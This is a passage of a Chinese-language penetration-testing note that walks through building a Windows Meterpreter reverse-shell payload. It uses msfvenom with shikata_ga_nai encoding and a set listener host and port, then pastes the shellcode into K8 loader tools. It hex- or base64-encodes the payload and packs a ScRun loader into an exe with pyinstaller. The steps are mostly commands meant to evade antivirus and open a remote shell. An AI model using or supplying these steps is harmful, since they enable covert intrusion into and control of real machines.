  #### hex
	生成c格式payload
	>msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00' lhost=192.168.0.108 lport=12138 -f c -o /var/www/html/shell.c
	下载k8final
![image](/assets/Pentest_Note/master/img/65.png)

	粘贴shellcode进去
![image](/assets/Pentest_Note/master/img/66.png)

	使用
	https://github.com/k8gege/scrun

![image](/assets/Pentest_Note/master/img/67.png)

	或
	>python scrun.py xxx
	或
	编译ScRunHex.py为exe
 #### Base64(*)
	生成c格式payload
	>msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00' lhost=192.168.0.108 lport=12138 -f c -o /var/www/html/shell.c
	下载k8final

![image](/assets/Pentest_Note/master/img/68.png)

	粘贴shellcode进去
![image](/assets/Pentest_Note/master/img/69.png)

	进行hex编码后，粘贴进去base64编码
![image](/assets/Pentest_Note/master/img/70.png)

	看系统位数编译ScRunBase.py文件，使用pyinstaller打包为exe后执行
	https://gitee.com/RichChigga/scrun/blob/master/ScRunBase64.py
	>python pyinstaller-script.py -F -w ScRunBase64.py
![image](/assets/Pentest_Note/master/img/71.png)
![image](/assets/Pentest_Note/master/img/72.png)